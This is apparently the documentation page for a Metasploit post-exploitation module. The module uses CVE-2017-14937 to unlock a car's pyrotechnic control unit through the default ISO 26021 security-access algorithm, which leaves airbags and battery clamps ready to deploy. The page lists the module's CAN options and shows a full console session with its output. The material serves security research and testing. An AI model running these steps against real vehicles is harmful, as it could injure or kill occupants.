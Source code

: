 Acting in the role of a Pyrotechnical Device Deployment Tool (PDT), this module will first query all Pyrotechnic Control Units (PCUs) in the target vehicle to discover how many pyrotechnic devices are present, then attempt to validate the security access token using the default simplified algorithm.  On success, the vehicle will be in a state that is prepped to deploy its pyrotechnic devices (e.g. airbags, battery clamps, etc.) via the service routine. (ISO 26021)

This module is based on research by Johannes Braun and Juergen Duerrwang, which you can read more about [here](https://www.researchgate.net/publication/321183727_Security_Evaluation_of_an_Airbag-ECU_by_Reusing_Threat_Modeling_Artefacts) along with related [CVE-2017-14937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14937).

## Options

### SRCID

  This is the SRC CAN ID for the PCU connection.  Default is 0x7F1.

### DSTID

  This is the CAN ID of the expected response.  Default is 0x7F9.

### CANBUS

  Determines which CAN bus to communicate on.  Type 'supported_buses' for valid options.

### PADDING

  Optional byte-value to use for padding all CAN bus packets to an 8-byte length.  Padding is disabled by default.

## Scenarios

  A successful unlock and prepped-to-deploy of pyrotechnic devices in a target vehicle:

```
$ ./msfconsole -q
msf > use auxiliary/server/local_hwbridge
msf auxiliary(local_hwbridge) > set uripath /
uripath => /
msf auxiliary(local_hwbridge) > run
[*] Auxiliary module running as background job 0.

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://10.0.2.4:8080/
[*] Server started.

msf auxiliary(local_hwbridge) > use auxiliary/client/hwbridge/connect
msf auxiliary(connect) > run

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2017-12-17 10:41:27 -0600
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed

msf auxiliary(connect) > sessions -i 1
[*] Starting interaction with 1...

hwbridge >
hwbridge > run post/hardware/automotive/pdt canbus=<target CAN bus>

[*] Gathering Data...
[*]  VIN: 5555
[*] Loop info (1 pyrotechnic devices):
[*]   69 | battery clamp main battery
[*]      |  Deployment Status: Fail ()
[*]  Number of PCUs in vehicle     | 1
[*]  Info About First PCU
[*]  Address format this PCU(s)    | 11 bit normal addressing
[*]  Number of pyrotechnic charges | 1
[*]  Version of ISO26021 standard  | 1
[*]  ACL type                      | CAN only
[*]  ACL Type version              | 1
[*]
[*] Switching to Diagnostic Session 0x04...
[*] Getting Security Access Seed...
[*] Success.  Seed: ["01", "CF", "00", "00", "00"]
[*] Attempting to unlock device...
[*] Success!
[!] Warning! You are now able to start the deployment of airbags in this vehicle
[!] *** OCCUPANTS OF THE VEHICLE FACE POTENTIAL DEATH OR INJURY ***
```
